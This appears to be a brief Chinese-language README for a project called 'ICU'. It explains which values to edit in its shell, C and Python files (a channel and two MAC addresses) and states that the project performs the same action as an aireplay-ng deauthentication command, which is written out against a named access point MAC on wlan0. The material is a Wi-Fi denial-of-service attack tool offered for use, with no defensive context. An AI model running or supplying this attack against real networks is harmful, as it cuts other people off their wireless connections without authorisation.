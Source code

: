 # ICU
请在0.sh中自行添加sleep<br>
并修改0.c中main函数里的信道b<br>
3.py中的addr2和addr3<br>
该项目相当于执行<br>
aireplay-ng -0 <int类型> -a 1C:FF:59:33:7F:FF(AP) --ignore-negative-one -D wlan0
